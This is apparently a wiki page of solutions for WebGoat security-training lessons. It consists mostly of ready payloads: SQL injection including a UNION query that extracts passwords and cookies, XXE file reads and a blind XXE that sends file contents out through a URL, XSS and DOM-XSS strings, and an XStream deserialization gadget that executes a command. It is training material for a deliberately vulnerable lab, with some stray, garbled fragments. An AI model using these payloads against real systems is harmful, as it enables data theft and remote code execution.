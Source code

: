 https://github.com/adracea/WebGoat/wiki/(Almost)-Fully-Documented-Solution-(en)


### SQLi ###  

Basic  
Smith - to show it returns smith's records.    
To show exploit; `1=1` can be any true clause:  

```sql  
Smith' or '1'='1   
```

**Bender Login**  
```sql
bender@juice-sh.op' --  
```
```sql 
[2:19 PM]  
101
101 or 1=1
```  
```sql 
Smith' union select userid,user_name, password,cookie,cookie, cookie,userid from user_system_data --
```  

## XXE ##

Simple:  
```xml 
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;</text></comment>  
```

Modern Rest Framework:  
Change content type to: `Content-Type: application/xml` and 
```xml  
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><user>  <username>&root;</username><password>test</password></user>
```  

Blind SendFile   
```xml
  
      Solution:
     
      Create DTD:
     
      <pre>
          <?xml version="1.0" encoding="UTF-8"?>
          <!ENTITY % file SYSTEM "file:///c:/windows-version.txt">
          <!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:8080/WebGoat/XXE/ping?text=%file;'>">
           %all;
      </pre>
     
      This will be reduced to:
     
      <pre>
          <!ENTITY send SYSTEM 'http://localhost:8080/WebGoat/XXE/ping?text=[contents_file]'>
      </pre>
     
      Wire it all up in the xml send to the server:
     
      <pre>
       <?xml version="1.0"?>
       <!DOCTYPE root [
       <!ENTITY % remote SYSTEM "http://localhost:8080/WebGoat/plugin_lessons/XXE/test.dtd">
       %remote;
        ]>
       <user>
         <username>test&send;</username>
       </user>
     
      </pre>
     
     
```

### XSS ###
```javascript
<script>alert('my javascript here')</script>4128 3214 0002 1999
``` 

DOM-XSS:  

  Something like 
  `http://localhost:8080/WebGoat/start.mvc#test/testParam=foobar&_someVar=234902384lotslsfjdOf9889080GarbageHere%3Cscript%3Ewebgoat.customjs.phoneHome();%3C%2Fscript%3E
//`   
OR  
`http://localhost:8080/WebGoat/start.mvc#test/testParam=foobar&_someVar=234902384lotslsfjdOf9889080GarbageHere<script>webgoat.customjs.phoneHome();<%2Fscript>`  

### Vuln - Components ###

Jquery page: - it is contrived; but paste that in each box  
```javascript
OK<script>alert("XSS")<\/script>
OK<script>alert("XSS")<\/script>
```
for the deserialization:  got to the link: http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/  to read about why it works so you can talk to it.
```html  
<sorted-set>  
 <string>foo</string>
 <dynamic-proxy>
   <interface>java.lang.Comparable</interface>
   <handler class="java.beans.EventHandler">
     <target class="java.lang.ProcessBuilder">
       <command>
         <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
       </command>
     </target>
     <action>start</action>
   </handler>
 </dynamic-proxy>
</sorted-set>

```
